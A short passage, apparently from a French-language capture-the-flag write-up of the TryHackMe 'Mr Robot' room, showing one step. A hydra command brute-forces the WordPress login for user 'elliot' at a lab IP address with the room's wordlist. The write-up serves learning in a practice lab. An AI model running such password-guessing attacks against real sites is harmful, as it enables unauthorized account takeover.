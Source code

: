    ![login](images/thm_mr_robot_find_usr.png)

   - Ensuite, j'utilise la commande suivante pour trouver le mot de passe :
     ```bash
    	hydra -l "elliot" -P fsociety.dic 10.10.14.242 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Incorrect"
     ```
     